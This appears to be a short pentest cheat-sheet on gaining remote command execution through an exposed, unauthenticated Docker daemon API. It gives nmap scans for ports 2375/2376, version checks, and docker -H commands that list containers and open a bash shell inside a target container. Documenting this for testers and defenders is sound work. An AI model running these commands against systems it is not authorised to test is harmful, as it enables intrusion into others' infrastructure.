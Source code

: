 # Docker API unauthorized RCE
- Docker is an open-source platform for developers and other IT professionals to help build, ship, and run distributed applications.
the docker daemon (dockerd) provides an API service used for remote control of docker service the default daemon listen on Unix /var/run/docker.sock and when bound to a public interface can be used by an attacker to compromise container system due to lack of default authentication

## Background concept:

- The host is running docker: daemon bound to the external interface with no access control or authentication
- Attacker uses docker API function to enumerate manage and control the container service the attacker is able to control existing deployed container or create another one.
- Docker API provides JSON response containing the output of command issued.
- Enumerating docker API services
- By default, the Docker host remote API listens on ports 2375 / 2376 and has no authentication. If the port is not blocked, docker host APIs can be accessed over the public internet.

```
nmap IP:2375/2376
nmap -p- IP
nmap -Pn -p 2375 IP
nmap -sV -p 2375 IP
```
- To confirm that the docker is service is running on the target we can give the string in the browser and check the response
ex: `https://IP:2375`
- we will receive a response something like this
`{"message":"page not found"}`
- and to confirm the version details we can use this
`https://IP:2375/version`

- The command used to exploit

- This command is used to get all the information about the docker container
`docker -H IP:2375 info`

- List all the running containers
`docker -H IP:2375 ps`

- List all the stopped containers
`docker -H IP:2375 ps -a`

- Docker command for RCE
`docker -H IP:2375 exec -it container_name /bin/bash`

## Contributor:
- [N3T_hunt3r](https://twitter.com/N3T_hunt3r)
